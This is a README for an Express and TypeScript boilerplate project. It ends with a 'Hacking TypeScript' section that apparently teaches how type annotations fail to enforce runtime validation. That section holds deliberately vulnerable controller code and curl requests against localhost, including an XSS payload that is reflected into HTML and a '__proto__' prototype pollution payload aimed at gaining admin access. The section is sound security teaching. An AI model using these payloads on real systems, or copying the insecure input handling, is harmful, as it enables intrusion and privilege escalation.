 # 🚀 Express TypeScript Boilerplate 2024

[![Build](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml)
[![Test](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml)
[![Code Quality](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml)
[![Docker Image CI](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml)

``` code
Hey There! 🙌 
🤾 that ⭐️ button if you like this boilerplate. 
```

## 🌟 Introduction

Welcome to the Express TypeScript Boilerplate 2024 – a streamlined, efficient, and scalable foundation for building powerful backend services with modern tools and practices in Express.js and TypeScript.

## 💡 Motivation

This boilerplate aims to:

- ✨ Reduce setup time for new projects
- 📊 Ensure code consistency and quality
- ⚡  Facilitate rapid development
- 🛡️ Encourage best practices in security, testing, and performance

## 🚀 Features

- 📁 Modular Structure: Organized by feature for easy navigation and scalability
- 💨 Faster Execution with tsx: Rapid TypeScript execution with `tsx` and type checking with `tsc`
- 🌐 Stable Node Environment: Latest LTS Node version in `.nvmrc`
- 🔧 Simplified Environment Variables: Managed with Envalid
- 🔗 Path Aliases: Cleaner code with shortcut imports
- 🔄 Renovate Integration: Automatic updates for dependencies
- 🔒 Security: Helmet for HTTP header security and CORS setup
- 📊 Logging: Efficient logging with `pino-http`
- 🧪 Comprehensive Testing: Setup with Vitest and Supertest
- 🔑 Code Quality Assurance: Husky and lint-staged for consistent quality
- ✅ Unified Code Style: `Biomejs` for consistent coding standards
- 📃 API Response Standardization: `ServiceResponse` class for consistent API responses
- 🐳 Docker Support: Ready for containerization and deployment
- 📝 Input Validation with Zod: Strongly typed request validation using `Zod`
- 🧩 Swagger UI: Interactive API documentation generated from Zod schemas

## 🛠️ Getting Started

### Video Demo

For a visual guide, watch the [video demo](https://github.com/user-attachments/assets/b1698dac-d582-45a0-8d61-31131732b74e) to see the setup and running of the project.

### Step-by-Step Guide

#### Step 1: 🚀 Initial Setup

- Clone the repository: `git clone https://github.com/edwinhern/express-typescript-2024.git`
- Navigate: `cd express-typescript-2024`
- Install dependencies: `npm ci`

#### Step 2: ⚙️ Environment Configuration

- Create `.env`: Copy `.env.template` to `.env`
- Update `.env`: Fill in necessary environment variables

#### Step 3: 🏃‍♂️ Running the Project

- Development Mode: `npm run dev`
- Building: `npm run build`
- Production Mode: Set `.env` to `NODE_ENV="production"` then `npm run build && npm run start`

## 🤝 Feedback and Contributions

We'd love to hear your feedback and suggestions for further improvements. Feel free to contribute and join us in making backend development cleaner and faster!

🎉 Happy coding!

## 💀 Hacking TypeScript

### TypeScript Validation Fail #1

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

Even though we are using TypeScript, we defined the filterQuery as `any` which is the obvious glaring mistake. So upon sending a request to the `/api/users` endpoint with a query parameter `filter` that may not be a string, we get the following to send a response back

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

### TypeScript Validation Fail #2

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
        const filterQuery: string = _req.query.filter as string || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

We have now improved upon the previous code and treat the `filterQuery` as a string.

Next, run the TS compiler to ensure all types are as expected:

```bash
npx tsc
```

Let's send a request to see how the server behaves:

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

Still, we get results back. Even though, supposedly we should only be accepting a string as a filter query and not arrays, per our TypeScript definitions.

### TypeScript Security Bypass #3

We send in a query parameter that is a string but contains a malicious payload but it gets sanitized correctly per our logic:

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name=<img liran"

Bad input detected!
```

What happens if we update the query string so that the field is to be interpreted as an array instead of a string?

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name[]=<img src=x onError=alert(1) />"           

<h1>Hello, <img src=x onError=alert(1) />!</h1>
```

### TypeScript Security Bypass #4

Let's bypass both TypeScript types and Zod schema input validation.

First off, a safe request:

```bash
curl http://localhost:8080/users/1/settings | jq
```

Let's set a setting to enabled:

```bash
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/settings -d '{"darkmode": true}' 
```

Now let's specifically set the notifications settings

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "email", "notificationMode": "daily", "notificationModeValue": "disabled"}'
```

Now let's abuse this with a prototype pollution payload:

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'
```

Let's try to access the admin route now:

```bash
curl http://localhost:8080/admin
```